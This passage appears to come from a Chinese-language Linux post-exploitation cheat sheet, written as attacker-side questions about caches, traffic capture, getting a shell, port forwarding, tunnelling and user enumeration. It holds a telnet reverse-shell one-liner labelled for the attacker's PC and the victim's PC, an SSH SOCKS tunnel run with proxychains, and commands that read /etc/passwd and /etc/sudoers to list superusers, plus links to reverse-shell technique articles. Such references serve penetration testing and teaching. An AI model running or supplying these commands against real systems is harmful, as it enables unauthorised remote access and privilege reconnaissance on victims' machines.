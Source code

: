 **有哪些关于 IP 和 MAC 地址的缓存？**

> arp -e
>
> route
>
> /sbin/route -nee

**如何抓取流量？怎么看？**

> tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21

注意：`tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]`

**如何得到一个 shell 连接？你可以与系统交互吗？**

> nc -lvp 4444 \# 在攻击者的 PC 上执行
>
> nc -lvp 4445 \# 在受害者的 PC 上执行
>
> telnet \[atackers ip\] 4444 \| /bin/sh \| telnet \[local ip\] 4445 \# 在受害者的 PC 上执行

其他姿势参见：[linux下反弹shell的姿势](https://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247484222&idx=1&sn=e7e53f62eabfa780f1f8db70f27b1e2f&scene=21#wechat_redirect)

**如何进行端口转发？**

参考文章：[穿越边界的姿势](https://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247484014&idx=1&sn=78fcbe24a3956ed1a0bf3fba594eb0d9&scene=21#wechat_redirect)

其他姿势请自行探索

**如何使用隧道执行命令？**

> ssh -D 127.0.0.1:9050 -N \[username\]@\[ip\]
>
> proxychains ifconfig

#### 跟用户相关的信息

**我是谁？谁登入了？谁登入过？等**

> id
>
> who
>
> w
>
> last
>
> cat /etc/passwd \| cut -d: -f1 \# 列出用户
>
> grep -v -E "^\#" /etc/passwd \| awk -F: '$3 == 0 { print $1}' \# 列出超级用户
>
> awk -F: '\($3 == "0"\) {print}' /etc/passwd \# 列出超级用户
>
> cat /etc/sudoers
>
> sudo -l
